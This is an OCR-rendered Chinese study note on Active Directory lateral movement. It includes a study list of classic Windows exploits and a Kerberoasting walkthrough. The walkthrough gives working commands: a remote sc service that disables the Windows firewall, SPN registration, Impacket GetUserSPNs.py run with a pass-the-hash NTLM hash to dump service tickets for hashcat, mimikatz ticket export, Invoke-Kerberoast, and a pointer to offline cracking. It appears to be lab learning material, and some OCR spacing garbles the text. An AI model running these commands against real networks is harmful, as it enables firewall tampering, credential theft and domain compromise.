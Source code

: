 `关闭防火墙命令`\-- 关闭防火墙

```bash
sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\WIN-ENS2VR5TR3N start unablefirewall
```

【横 向】：学习 MS14-068、zerolog on、永 恒之 蓝、printnig htmare 这⼏个 经典漏洞的 exp 使⽤，对应版 本，能 了解⼀ 波原理 更好。要求：复现，

【横 向】：学习 kerberoast、as\_reproast 这 俩攻击 ⽅式 要求：复现，总结⼀ 篇⽂章

## kerberoast 攻击

什么是 Kerberoast 攻击呢，在实战环境中，攻击者为获取目标服务器权限，`设法破解Kerberos服务票据并重写它们的过程，不需要与靶机服务进行任何交互。`可以通过合法的活动目录访问`请求和导出`来离线破解服务票据，从而获取最终的明文密码。  
攻击步骤如下：

1.  攻击者提供一个正常域用户密码进行认证获得`TGT`
2.  攻击者使用该 `TGT`针对指定 `SPN请求`
3.  `KDC验证TGT`之后服务 Hash 加密的 `ST`
4.  最终攻击者 离线爆破`ST`

执行命令如下

```bash
在域控下打开 powershell 执行一下命令：
setspn -S Hacker/test.com kerberoasting
命令解释：
Hacker 是服务名
test.com 是域名
kerberoasting 是域用户名

查询所有 SPN 命令看看是否配置成功
setspn -q */*
```

`Kerberoating请求伪造服务`

```bash
GetUserSPNs.py 工具请求服务票据：
    Impacket 中的 GetUserSPNs.py 脚本可以请求注册于用户下所有 SPN 的服务票据，
    也可以请求注册于指定用户下的 SPN 服务票据。
#请求注册于用户下所有 SPN 的服务票据，并以 hashcat 能够破解的格式保存为 spn.txt 文件：
GetUserSPNs.py -request -dc-ip 10.211.55.100 'test.com/ruyu' -hashes :4c25ed57e37131073192a98148fbc30f -outputfile spn.txt
```

mimikatz 导出票据

```bash
mimikatz.exe "kerberos::list /export"  "exit"

## 拓展 Empire 下的 Invoke-Kerberoast.ps1
Import-Module .\Invoke-Kerberoast.ps1;Invoke-Kerberoast -outputFormat Hashcat
```

下一步进行离线破解服务票据  
利用`kerberoast中的tgsrepcrack.py`
